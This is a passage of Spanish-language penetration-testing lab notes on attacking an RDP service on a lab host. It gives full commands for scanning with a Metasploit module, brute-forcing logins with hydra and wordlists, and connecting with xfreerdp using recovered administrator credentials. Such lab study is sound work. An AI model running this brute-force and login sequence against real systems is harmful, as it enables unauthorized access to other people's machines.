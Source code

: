 Ahora vamos a intentar explotar el servicio RDP

![[Pasted image 20240308094848.png]]

Como podemos ver en la anterior captura por defecto no aparece que el servicio RDP este habilitado, para ello tendremos que utilizar algun escaner de servicios, también hay que tener en cuenta que el servicio RDP puedo estar configurado en cualquier puerto, por lo que vemos de primeras con el escaneo revisaremos el puerto 3333.

Utilizando el siguiente modulo auxiliar revisaremos si se esta ejecutando el servicio RDP
auxiliary/scanner/rdp/rdp_scanner
![[Pasted image 20240308095239.png]]

Como podemos ver se esta ejecutando, ahora realizaremos un ataque de fuerza bruta para descubrir el usuario y la password para acceder
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.2.28.248 -s 3333
![[Pasted image 20240308100042.png]]

Una vez obtenemos las credenciales con la herramienta [[Xfreerdp]] probaremos a acceder al equipo victima
xfreerdp /u:administrator /p:qwertyuiop /v:10.2.28.248:3333
![[Pasted image 20240308100431.png]]

Como podremos ver se nos abrirá una pantalla con la conexión en remoto
![[Pasted image 20240308100451.png]]



